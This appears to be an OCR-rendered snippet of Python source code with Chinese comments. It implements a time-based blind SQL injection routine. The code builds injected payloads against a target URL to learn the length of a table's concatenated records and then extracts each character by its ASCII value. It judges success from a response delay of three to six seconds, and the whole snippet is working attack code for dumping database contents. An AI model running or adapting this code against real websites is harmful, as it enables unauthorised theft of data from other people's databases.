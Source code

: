     
    def get_data(chose_table, column_list, url, payload_header, payload_end):
        # 获取记录
        columns_name = ''
        for i in column_list:
            columns_name += f",{i}"
    
        # 获取长度
        length = 10000
        for L in range(1, 10000):
            payload = url + payload_header + \
                      f"length((select group_concat(concat_ws(':'{columns_name})) from {chose_table}))={L}""" \
                      + payload_end
            print(f'\r正在获取{chose_table}表所有记录拼接后长度：{L}', end='')
            if judge_time(payload):
                print(f'\n{chose_table}表所有记录拼接后长度为：{L}', end='')
                length = L
                break
            elif L == 9999:
                print(f'\r无法获取当{chose_table}表所有记录拼接后长度：{L}', end='')
    
        print()
        data = []
        data_str = ''
        # 获取值
        for i in range(1, length + 1):
            print(f'\r正在获取第{i}个值：{data_str}', end='')
            for ascii_num in range(39, 123):
                payload = url + payload_header + \
                          f"(select ascii(mid(group_concat(concat_ws(':'{columns_name})),{i},1)) from {chose_table})" \
                          f"={ascii_num} " + payload_end
                if judge_time(payload):
                    data_str += chr(ascii_num)
    
        data_list = data_str.split(',')
        for i in data_list:
            data.append(i.split(':'))
        print(f'\n获取{chose_table}表的所有记录结束：')
        return data
    
    
    def judge_time(payload):
        # 判断响应时间
        time = html_get_time(payload)
        if 3 <= time < 6:
            return True
        else:
            return False
    